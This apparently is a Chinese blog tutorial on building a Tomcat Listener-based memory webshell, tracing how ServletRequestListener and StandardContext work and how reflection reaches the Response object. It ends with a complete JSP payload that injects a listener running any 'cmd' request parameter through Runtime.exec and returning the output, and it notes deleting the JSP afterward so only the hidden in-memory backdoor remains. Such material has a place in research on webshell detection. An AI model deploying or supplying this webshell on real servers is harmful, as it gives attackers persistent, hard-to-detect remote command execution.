










环境搭建
配置好tomcat后，调试时笔者用的maven，然后下载对应源码就好了
<dependency>
<groupId>org.apache.tomcat</groupId>
<artifactId>tomcat-catalina</artifactId>
<version>9.0.96</version>
</dependency>
0x01 Listener前置知识
Java Web 开发中的监听器（Listener）就是 Application、Session 和 Request 三大对象创建、销毁或者往其中添加、修改、删除属性时自动执行代码的功能组件。
用途
可以使用监听器监听客户端的请求、服务端的操作等。通过监听器，可以自动出发一些动作，比如监听在线的用户数量，统计网站访问量、网站访问监控等。
Listener 三个域对象
- ServletContextListener
- HttpSessionListener
- ServletRequestListener
很明显，ServletRequestListener 是最适合用来作为内存马的。因为 ServletRequestListener 是用来监听 ServletRequest对 象的，当我们访问任意资源时，都会触发ServletRequestListener#requestInitialized()方法。
0x02 Listener流程分析
Servlet 规范中一共定义了 8 个 Listener 接口
http://c.biancheng.net/servlet2/listener.html
但因为内存马本身的特殊性, 一般选用 ServletRequestListener 接口
package com.example.learnservlet;
import javax.servlet.*;
import javax.servlet.annotation.*;
@WebListener
public class TestListener implements ServletRequestListener{
public TestListener() {
}
@Override
public void requestDestroyed(ServletRequestEvent sre) {
}
@Override
public void requestInitialized(ServletRequestEvent sre) {
System.out.println("test listener");
}
}

requestInitialized处断点，通过调用栈往会看，可以看到这里调用转化为ServletRequestListener的requestInitialized

往前看，通过getApplicationEventListeners获取所有listener

这里可以看到applicationEventListenersList存放着listener

StandardContext#addApplicationEventListener可以添加listener

其实这里思路就出来，通过jsp执行java代码找到StandardContext类调用addApplicationEventListener注入我们的恶意listener。
两个困难
- 怎么获得对应的
StandardContext
这里我不太懂为什么可以这样得到
ServletContext servletContext = request.getServletContext();
or
ServletContext servletContext = request.getSession().getServletContext();
requestInitialized()方法得到的参数只有ServletRequestEvent，没有类似Response返回命令执行结果的值
当然这里没回显的话也可以不考虑，但是这里是能做到回显的（有师傅可能会说直接用jsp的Response不就行了么，想上面直接用jsp的request）
理解: 内存马，这里是jsp执行后肯定要删掉jsp，留下来的只有这个
Listener，后面调用也只会调用requestInitialized()方法里代码，所以这里回显不能依赖jsp，只能靠传入的参数ServletRequestEvent调用，前面的request是用来找到ServletContext的写入Listener只需要调用一次，所以可以直接用jsp的request
Response和Request获取
下面我们来看怎么构造回显

从下图我们可以得到ServletRequestEvent.request实例是RequestFacade，而RequestFacade.request是Request，Request含有Response类的属性
ServletRequestEvent.request -> RequestFacade.request -> Request.Response



这里我们通过反射可以得到Response
ServletRequest servletRequest = sre.getServletRequest();
Field request1 = servletRequest.getClass().getDeclaredField("request");
request1.setAccessible(true);
Request o = (Request)request1.get(servletRequest);
Field request2 = o.getClass().getDeclaredField("response");
Response response = (Response) request2.get(o);
- 下面就是获取
StandardContext
ServletContext servletContext = request.getServletContext();
or
ServletContext servletContext = request.getSession().getServletContext();
上面获取的实例是ApplicationContextFacade

环境初始化的时候会对StandardContext进行封装，所以我们可以通过ApplicationContextFacade反射得到StandardContext实例
StandardContext.java#postWorkDirectory()
StandardContext.java#getServletContext()
StandardContext.java#context = new ApplicationContext(this);
ApplicationContext#facade = new ApplicationContextFacade(this);
ApplicationContextFacade#ApplicationContextFacade.context = (ApplicationContext)context
ApplicationContext(StandardContext context){this.context = (StandardContext)context;}
0x03构造内存马
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="javax.security.auth.message.callback.SecretKeyCallback" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%
//反射得到StandardContext
ApplicationContextFacade servletContext = (ApplicationContextFacade) request.getServletContext();
Field con = servletContext.getClass().getDeclaredField("context");
con.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) con.get(servletContext);
Field context = applicationContext.getClass().getDeclaredField("context");
context.setAccessible(true);
StandardContext Standardcontext1 = (StandardContext) context.get(applicationContext);
ServletRequestListener servletRequestListener = new ServletRequestListener() {
void requestDestroyed() {
}
public void requestInitialized(ServletRequestEvent sre) {
try {
//反射得到Response
ServletRequest servletRequest = sre.getServletRequest();
Field request1 = servletRequest.getClass().getDeclaredField("request");
request1.setAccessible(true);
Request o = (Request)request1.get(servletRequest);
Field request2 = o.getClass().getDeclaredField("response");
request2.setAccessible(true);
Response response = (Response) request2.get(o);
String cmd = o.getParameter("cmd");
Process exec = Runtime.getRuntime().exec(cmd);
InputStream inputStream = exec.getInputStream();
BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
// 设置响应头，确保客户端能正确接收文本数据
response.setContentType("text/plain");
response.setCharacterEncoding("UTF-8");
// 获取输出流，用于向客户端发送数据
PrintWriter writer = response.getWriter();
String line;
while ((line = reader.readLine())!= null) {
writer.write(line + "\n");
}
// 关闭相关资源
reader.close();
inputStream.close();
writer.close();
} catch (Exception e) {
throw new RuntimeException(e);
}
}
};
//插入Listener
Standardcontext1.addApplicationEventListener(servletRequestListener);
out.println("oooooooooooooooh yeah");
%>